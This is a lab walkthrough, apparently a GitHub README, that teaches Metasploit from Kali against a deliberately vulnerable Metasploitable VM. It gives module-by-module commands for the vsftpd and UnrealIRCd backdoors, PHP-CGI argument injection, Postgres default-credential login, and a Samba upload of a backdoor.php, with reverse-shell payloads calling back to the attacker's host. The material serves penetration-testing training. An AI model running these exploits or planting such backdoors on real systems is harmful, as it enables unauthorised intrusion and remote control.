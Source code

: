 ## Metasploit on the Linux Metasploitable2 

Here are several labs on running Metasploit from Kali on a Metasploitable3 Linux VM. Please make sure when you execute these labs you verify that home environment setup is working properly and you are able to scan the Metasploitable 3 Linux host from Kali using NMAP. Typically when you find the Metasploitable3 system it will have 5 or more open ports. This walkthrough is intended to get your familiar with the Metasploit tool and the options required to successfully execute the exploit.

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search vsftp`

2. Next run the use command with the exploit based on your search. If multiple exploits are found with that specific exploit name you may need to run each one seperately.

Example: `use exploit/unix/ftp/vsftpd_234_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

In this example the required options for vsftp are the following

RHOSTS = IP Address of host you are attacking `xxx.xxx.xxx.xxx`

RPORT = Port you are attacking which is port = `21`

Payload = In this example we used the following payload = `set payload cmd/unix/interact`

4. Finally to run the exploit you can use the `run` or `exploit` command to execute it.

## Apache 2.2.8

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search apache`

2. Since we have so many Apache exploits lets use an Auxlilary scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_listing`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`run`

3. Since that was successful lets use an Auxlilary directory scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_scanner`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

4. Since that was successful lets use an Auxlilary file scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/files_dir`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

5. Since that was successful lets use the verbose authorization bypass to search for any potential exploits we can use.

`use auxiliary/scanner/http/verb_auth_bypass`

`show options`

`set rhosts xxx.xxx.xxx.xxx`

`run`

6. Since that was unsuccessful lets use the php_cgi injection exploit to search for any potential exploits we can use.

`use exploit/multi/http/php_cgi_arg_injection`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`set lhost xxx.xxx.xxx.xxx`

`set lport 4444`

`run` or `exploit`

## Postgres

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search postgres`

2. Now lets use the auxiliary scanner for postgres

`use auxiliary/scanner/postgres/postgres_login`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`set user_as_pass true`

`set username postgres`

`run` or `exploit`

3. The exploit was successful so you can now login to the system as the username and password with the same credentials by using the folloing sytax

`psql -h xxx.xxx.xxx.xxx -U postgres -W`

## Unreal IRC

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search unreal`

2. Now lets use the unreal exploit

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 6697` (Port number IRC app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse`

## Samba FTP

`use auxiliary/admin/smb/upload_file`

`set rhosts xxx.xxx.xxx.xxx`

`set rport 445`

`set rport_ftp 21`

`set smbshare public`

`set smbuser chewbacca`

`set lpath /tmp/backdoor.php`

`set rpath backdoor.php`

`set lhost xxx.xxx.xxx.xxx` (this should be your kali linux IP address)

`set lport 4444` (Port on your system exploit and payload runs to create session)
